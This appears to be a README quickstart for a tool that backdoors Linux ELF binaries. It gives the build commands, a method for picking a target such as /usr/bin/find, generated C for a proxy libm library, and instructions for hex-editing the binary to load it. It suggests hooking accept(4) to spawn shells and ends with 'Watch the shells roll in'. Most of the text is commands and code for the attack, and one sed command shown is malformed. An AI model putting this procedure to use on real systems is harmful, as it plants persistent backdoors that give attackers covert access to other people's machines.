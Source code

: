 Quickstart
==========
A command-by-command, easy-button walkthrough.

1. Build the tool
-----------------
```bash
go get -u github.com/magisterquis/dynelfsymbols
GOOS=linux go build -o ./dynelfsymbols github.com/magisterquis/dynelfsymbols/dynelfsymbols
```
This should probably be done on the attack box, and not on target.  Move the
resulting binary to the target.

2. Find a good candidate for backdooring
----------------------------------------
Choose a directory with lots of potential.  Good binaries should link to a
library with only a few imported symbols and be called as often as the
malicious code should be run.  `/bin` is a good choice, as is `/usr/bin`.  If
there's custom software runnnig, wherever that is is a good choice, as well.

```
$ ./dynelfsymbols /usr/bin
File                                         Count  Libraries
----                                         -----  ---------
...snip...
/usr/bin/find                                1      libm.so.6
...snip
```
Here we get a list of ELF Files, as well as the library from which is imported
the fewest symbols and the number of symbols imported from that library.

`/bin/find` looks good.  It only imports one function from `libm`, and there
isn't likely to be side-effects since `libm` is a math library.

3. Find the library to backdoor
-------------------------------
Now that we've got a nice binary in mind, look at the symbols it imports from
each library to which it links.
```bash
$ ./dynelfsymbols /usr/bin/find
Library    Symbol                  Version
-------    ------                  -------
libm.so.6  modf                    GLIBC_2.2.5
...snip...
```
The function `modf` (with version `GLIBC_2.2.5`) is the only symbol imported
from `libm.so.6`.  Sometimes the same number of symbols are imported from
multiple libraries, in which case it's probably best to choose the one least
likely to be used or the one for which documentation is easiest to find.

4. Generate malicious library source
------------------------------------
Now that we've got the real library to replace (`libm.so.6`), we need to
generate our own malicious library.  We'll choose the name `libM` as that's
likely to not be too conspicuous.

```bash
./dynelfsymbols -c libm.so.6 /usr/bin/find > libM.c
```
There is a small file that needs to be made to give the right version strings
to the exported functions.  This is in a comment in the source code and should
be extracted.

```bash
perl -ne 'print$1if/^VERSIONSCRIPT (.*)/s' ./libM.c > ./vs
```

Take a moment to read through the generated source.

5. Fill in function definitions
-------------------------------
Before the malicious library can be built, the prototypes and definitions of
the exported functions need to have return types and arguments added.

The following lines of the C source need to be changed
```c
/* Exported function prototypes */
TYPE_CHANGEME modf(ARGS_CHANGEME);

/* Pointers to real functions */
static TYPE_CHANGEME (*modf_real)(ARGS_CHANGEME) = NULL;

/* Exported functions which call real functions */
TYPE_CHANGEME modf(ARGS_CHANGEME) {return modf_real(ARGS_CHANGEME);}
```

Types and arguments for the functions are typically in a manpage or a quick
Google search away.  In this case `man modf` gives us what we need to know.

After changing the prototypes and definitions, we get
```c
/* Exported function prototypes */
double modf(double x, double *iptr);

/* Pointers to real functions */
static double (*modf_real)(double x, double *iptr) = NULL;

/* Exported functions which call real functions */
double modf(double x, double *iptr) {return modf_real(x, iptr);}
```

After changing the necessary bits, code should be added to the contstructor
function `con` or another appropriate place in the library to do something
devious.  One possibility is intercepting a function like `accept(4)` to spawn
a shell if the remote end has the right address.  This is left as an exercise
for the reader.

6. Build library
----------------
At the bottom of the source is a generic command which can be used to build
the library.  The filenames will need to be changed, of course.
```bash
cc -O2 -shared -fPIC -Wl,--version-script=vs -o libM.so.6 libM.c -ldl
```
If all goes well, no output will be printed.

7. Backdoor binary
------------------
Put the library somewhere predictable, like `/lib`.

Edit the binary to replace `libm.so.6` in the elf header with `libM.so.6`.  It
should be near the top of the file, nearby other library and function names.

In vim, this looks like changing
```plaintext
...snip...
@libselinux.so.1^@_ITM_deregisterTMCloneTable^@__gmon_start__^@_Jv_RegisterClas
ses^@_ITM_registerTMCloneTable^@_init^@is_selinux_enabled^@fgetfilecon^@freecon
^@lgetfilecon^@lsetfilecon^@_fini^@libm.so.6^@modf^@libc.so.6^@__stpcpy_chk^@ff
lush^@strcpy^@__printf_chk^@re_set_syntax^@fnmatch^@readdir^@sprintf^@_IO_putc^
@setlocale^@mbrtowc^@fopen^@strncmp^@strrchr^@re_match^@readlinkat^@__strdup^@r
...snip...
```
to
```plaintext
...snip...
@libselinux.so.1^@_ITM_deregisterTMCloneTable^@__gmon_start__^@_Jv_RegisterClas
ses^@_ITM_registerTMCloneTable^@_init^@is_selinux_enabled^@fgetfilecon^@freecon
^@lgetfilecon^@lsetfilecon^@_fini^@libM.so.6^@modf^@libc.so.6^@__stpcpy_chk^@ff
lush^@strcpy^@__printf_chk^@re_set_syntax^@fnmatch^@readdir^@sprintf^@_IO_putc^
@setlocale^@mbrtowc^@fopen^@strncmp^@strrchr^@re_match^@readlinkat^@__strdup^@r
...snip...
```

It should also be possible to use sed to do the same thing, but there is the
risk that the wrong string will be changed.
```bash
sed -i '/libm\.so\.6/libM\.so\.6'
```

8.  That's it!
--------------
Now, any time someone calls `find(1)`, whatever malicious code you added to
`libM` will be run.  Watch the shells roll in.
